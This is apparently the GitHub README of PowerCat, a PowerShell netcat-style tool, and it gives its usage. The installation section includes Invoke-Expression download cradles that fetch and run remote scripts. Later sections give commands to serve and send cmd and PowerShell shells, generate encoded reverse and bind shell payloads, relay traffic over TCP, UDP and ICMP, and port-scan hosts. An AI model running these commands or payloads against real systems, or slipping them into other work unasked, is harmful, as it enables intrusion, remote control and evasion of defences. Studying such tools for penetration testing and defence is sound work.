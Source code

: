 PowerCat
========
```powershell
Write-Warning 'PowerCat is under construction. Check back soon for updates.'
Write-Warning 'I will remove this warning when the code is functional.'
```
A PowerShell TCP/IP swiss army knife. 

Installation
------------
PowerCat is a PowerShell module.  First you need to import the module before you can use the PowerCat functions.  You can put one of the below commands into your PowerShell profile so PowerCat is automatically loaded when PowerShell starts.
###
```powershell
    # Import the functions from downloaded .psm1 File:
    Import-Module PowerCat.psm1
    # Load the functions individually from URL:
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-PowerCat.ps1')
    Invoke-Expression (New-Object Net.Webclient).DownloadString('https://raw.githubusercontent.com/secabstraction/PowerCat/master/Invoke-DnsCat.ps1')
```
### Parameters:
```powershell    
    New-PowerCat
    
    -Listener       # Listen for a connection.                            [Switch]
    -Client         # IPv4 address of a listener to connect to.           [String]
    -Relay          # Format: "<Mode>:10.1.1.1:443"                       [String]
    
    -Mode           # Defaults to Tcp, can also specify Udp, Icmp         [String]
    -Port           # The port to connect to or listen on.                [Int]
    -Execute        # Execute a process.                                  [String]
    -PowerShell     # Execute Powershell.                                 [Switch]
    -Timeout        # Timeout option. Default: 60                         [Int]
    -Input          # Filepath (string), byte array, or string.           [Object]
    -OutputType     # Console Output Type: "Host", "Bytes", or "String"   [String]
    -OutputFile     # Output File Path.                                   [String]
    -Disconnect     # Disconnect after connecting.                        [Switch]
    -Repeat         # Restart after disconnecting.                        [Switch]
    -Payload        # Generate payload.                                   [Switch]
    -Encoded        # Base64 encode payload.                              [Switch]
```
Basic Connections
-----------------------------------
By default, PowerCat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with the -OutputType.
###
```powershell
    # Basic Listener:
    New-PowerCat -Listener -Port 443
        
    # Basic Client:
    New-PowerCat -Client 10.1.1.1 -Port 443
        
    # Basic Client, Output as Bytes:
    New-PowerCat -Client 10.1.1.1 -Port 443 -OutputType Bytes
```
File Transfer
-------------
PowerCat can be used to transfer files using the -Input and -OutputFile parameters.
###
```powershell
    # Send File:
    New-PowerCat -Client 10.1.1.1 -Port 443 -Input C:\pathto\inputfile
        
    # Recieve File:
    New-PowerCat -Listener -Port 443 -OutputFile C:\pathto\outputfile
```
Shells
------
PowerCat can be used to send and serve shells. Specify an executable to -Execute, or use -PowerShell to execute powershell.
###
```powershell
    # Serve a cmd Shell:
    New-PowerCat -Listener -Port 443 -Execute cmd
        
    # Send a cmd Shell:
    New-PowerCat -Client 10.1.1.1 -Port 443 -Execute cmd
        
    # Serve a shell which executes powershell commands:
    New-PowerCat -Listener -Port 443 -PowerShell
```
UDP and ICMP
-----------
PowerCat supports more than sending data over TCP. 
###
```powershell
    # Send Data Over UDP:
    New-PowerCat -Listener -Port 8000 -Mode Udp
        
    # Send Data Over ICMP:
    New-PowerCat -Listener -Port 8000 -Mode Icmp
```
Relays
------
Relays in PowerCat work are similar to netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
```powershell
    # TCP Listener to TCP Client Relay:
    New-PowerCat -Listener -Port 8000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to UDP Client Relay:
    New-PowerCat -Listener -Port 8000 -Relay udp:10.1.1.16:53
        
    # TCP Client to Client Relay
    New-PowerCat -Client 10.1.1.1 -Port 9000 -Relay tcp:10.1.1.16:443
        
    # TCP Listener to Listener Relay
    New-PowerCat -Listener -Port 8000 -Relay tcp:9000
```
Generate Payloads
-----------------
Payloads can be generated using -Payload or -Encoded parameters. 
###
```powershell
    # Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
    New-PowerCat -Client 10.1.1.15 -Port 443 -Execute cmd -Payload
        
    # Generate a bind tcp encoded command which listens on port 8000:
    New-PowerCat -Listener -Port 8000 -Execute cmd -Payload -Encoded
```
Misc Usage
----------
PowerCat can also be used to perform port-scans, and start persistent listeners.
###
```powershell
    # Basic TCP port scan:
    1..1024 | ForEach-Object { New-PowerCat -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose -Disconnect }
    
    # Basic UDP port scan:
    1..1024 | ForEach-Object { New-PowerCat -Mode Udp -Client 10.1.1.10 -Port $_ -Timeout 1 -Verbose }
        
    # Persistent listener:
    New-PowerCat -Listener -Port 443 -Input C:\pathto\inputfile -Repeat
```
